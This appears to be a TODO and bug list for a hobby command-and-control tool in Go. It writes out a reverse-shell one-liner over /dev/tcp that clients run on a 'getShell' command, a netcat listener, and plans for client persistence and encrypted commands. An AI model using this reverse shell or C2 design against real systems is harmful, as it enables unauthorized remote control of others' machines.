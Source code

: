 # Todo

- Ill implement a netcat connection instead of creating a shell because thats a lot of work for no reason
    - The idea is that the client will receive a "getShell" string and will connect to a nc connection from the server `sh -i >& /dev/tcp/127.0.0.1/4444 0>&1` (`getCommands` function)
    - In the server, he will be waiting for a nc connection from the client IP (localhost for now) `nc -lvp 4444`
    - For now this is a rev shell but the ideal was a bind shell , this way the client would wait for a connection from the server

- Server could exit but clients should continue running and when server starts again, goes check what clients are still on

- Implement mutexes to control goroutines

- Implement command encription on server and command decription on client with one time key given on c2 server startup

## Bugs

- Bug when using a client because the output of the command goes after the next input (@bug1)
    - This is bad
        ```
        command in client (c82d6c71-d8b3-454e-b57b-025999f32e1a) > ls

        command in client (c82d6c71-d8b3-454e-b57b-025999f32e1a) >
        go.mod
        go.sum
        main.go
        ```

    - This is good
        ```
        command in client (c82d6c71-d8b3-454e-b57b-025999f32e1a) > ls
        go.mod
        go.sum
        main.go

        command in client (c82d6c71-d8b3-454e-b57b-025999f32e1a) >
        ```
